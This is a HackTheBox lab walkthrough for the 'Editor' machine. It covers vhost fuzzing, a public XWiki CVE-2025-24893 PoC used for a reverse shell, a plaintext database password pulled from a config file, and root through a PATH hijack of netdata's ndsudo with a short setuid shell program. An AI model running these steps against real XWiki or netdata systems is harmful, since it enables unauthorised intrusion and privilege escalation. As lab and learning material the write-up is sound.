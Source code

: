 # Editor - HackTheBox Machine

Difficulty: Easy

---

## Enumeration

Run masscan and nmap to discover the following open ports 22,80,8080.

80 is running a website editor.htb so let's add it to hosts. Checking around on this website there was nothing of value so I went straight to vhost fuzzing.

Command:
```bash
ffuf -u "http://editor.htb" -H "Host: FUZZ.editor.htb" -w /usr/share/wordlists/dirb/common.txt -fl 8
```
This returns a subdomain called `wiki.editor.htb`. Add this to hosts.

After this it was time to check around for CVEs. The version this was running was `XWiki Debian 15.10.8`. So googling around for CVEs we found this: `https://github.com/Infinit3i/CVE-2025-24893`.

---

## Initial Access

Use this exploit after setting the appropriate parameters to gain a shell. Since my friend was having some problems with this exploit (we ewwere doing this together) I'll explain how to use this.

1. Start a netcat listener on port 31337
2. Now, in the PoC we have to change a few settings. Change the target host to `wiki.editor.htb`, and change the local host to your HTB vpn IP.
3. Now in a separate shell, navigate to the PoC directory and start a python server on port 8080.
4. Run the `Reverse Shell` option on the PoC now and if you did it right, you should see a shell on the computer. Repeat this a couple times tho, since it could fail.

Ok, now that that's done, it's time to get user. Read /etc/passwd to find that the home user is oliver.

Now we can try and hunt config files or mysql or whatever to get any data on oliver. I used `linpeas.sh` to no avail. So I just checked config files. There I found the password to oliver.

```bash
cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
```

This gives the password `theEd1t0rTeam99`. Use this to ssh in as oliver.

---

## Privilege Escalation

Now oliver cannot run `sudo -l`. So we need to look further.

On enumerating with `netstat -nltp`, I found port 19999 running a service. So using the command:
```bash
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

I forwarded the port to my local machine, which showed that it was running a service called netdata. Opening this site revealed a red alert on the top of the screen, which on clicking reveals the version to be `v1.45.2`.

There is a privilege escalation exploit for this detailed [here](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93).

So here's what you do:
1. Create a binary like this:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
        setuid(0);
        setgid(0);
        system("/bin/sh");
        return 0;
}
```
2. Compile it using `gcc exploit.c -o exploit`.
3. Host this on your python server.
4. Then download it onto your target machine (use curl or wget).
5. As detailed in the link, first we will rename this file to nvme and then give it executable permissions. (I stored this file in /tmp/exploit)
6. Now do

```bash
export PATH=/tmp/exploit:$PATH
```

7. `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`

This should log you in as root.

--- 

